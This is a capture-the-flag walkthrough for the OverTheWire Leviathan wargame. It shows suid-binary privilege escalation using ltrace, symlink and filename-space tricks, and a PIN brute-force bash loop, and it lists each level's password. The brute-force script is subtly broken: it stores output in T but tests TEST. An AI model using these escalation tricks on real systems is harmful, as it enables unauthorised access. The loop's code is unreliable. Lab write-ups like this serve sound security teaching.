 ## leviathan wargame
### leviathan0
Connect leviathan0 with ssh
```
$ ssh leviathan.labs.overthewire.org -p 2223 -l leviathan0
leviathan0
```
### leviathan1
Open the *.bookmarks.html* file in *.backup* directory and look for *pass* string
```
$ grep pass .backup/bookmarks.html
...
rioGegei8m
...
```
### leviathan2

I googled about priviledge escalation with suid binaries for about an hour or two but nothing to show for it.
Finally I found this [geekstuff/reverse_engineering_tools](https://www.thegeekstuff.com/2012/03/reverse-engineering-tools/)
I tried the `ltrace` and found that *check* program compares the user input with *strcmp* function
```
$ ltrace ./check
...
strcmp("asdf\n", "sex")
...
```
After providing the correct password suid program spawn a shell with priviledged rights
```
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```

### leviathan3
There is a suid program named, it prints files with checking permissions.
Examine the program w,th `ltrace`
```
$ ltrace ./printfile /etc/hostname
```
It checks the access permissions with `access()` function but there is a vulnerability about the `""`
while calling `/bin/cat` program.

Make a file with blank in its name and make a symbolic link with one of its parts
```
$ mkdir /tmp/xx
$ cd /tmp/xx
$ touch test\ pass3
$ ln -s /etc/leviathan_pass/levitahan3 pass3
```
Test the program
```
$ ~/printfile "test pass3"
Ahdiemoo1j
```

### leviathan4

There is a suid program check it out.
```
$ ./level3
Enter the password> aaaaa
bzzzzzzzzap. WRONG
```
Examine with ltrace
```
$ ltrace ./level3
...
strcmp("\n", "snlprintf\n")
...
```
`strcmp()` compares `snlprintf` with user input.
Use it as password;
```
$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
```

### leviathan5
There is a hidden `.trash` directory and a binary ,n this file
When it is executed it prints the 1's and 0's.

```
$ .trash/bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
```
Examine the binary with `ltrace`
```
$ ltrace .trash/bin
...
fopen("/etc/leviathan_pass/leviathan5", "r")
...
```
It opens leviatha5's password file but in binary format
Convert it online or in terminal, password is
```
Tith4cokei
```
### leviathan6

There is a suid program in home directory.

First execute it.
```
$ ./leviathan5
Cannot find /tmp/file.log
```
After that examine it with `ltrace`
```
$ ltrace ./leviathan5
...
fopen("/tmp/file.log", "r")
...
```
It wants to read a file in `/tmp` directory. If a symbolic link is created as same name with pointing to leviathan6 password file, the password can be read. Let's try;
```
$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
$ ./leviathan5
UgaoFee4li
```

### leviathan7
There is a suid program that checks pin code provided by an argumment to the program.
```
$ ./leviathan6 0001
Wrong
```
A simple script to do a brute force attack to this pincode can work.
```bash
#!/bin/bash
for PIN in {0000..9999}
do
	T=$(~/leviathan6 $PIN)
	if [[ $TEST != *"Wrong"* ]];
	then
		echo $TEST
		echo "gotcha  $PIN" | tee /tmp/xx/pass7
		break
	fi
	echo "$TEST $PIN"
	TEST=""
done

```
When the attack script is executed it hangs at *7122*
Try this pincode and *7123* with the suid program.
```
$ ~/leviathan6 7122
Wrong
$ ~/leviathan6 7123
$ whoami
leviathan7
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```
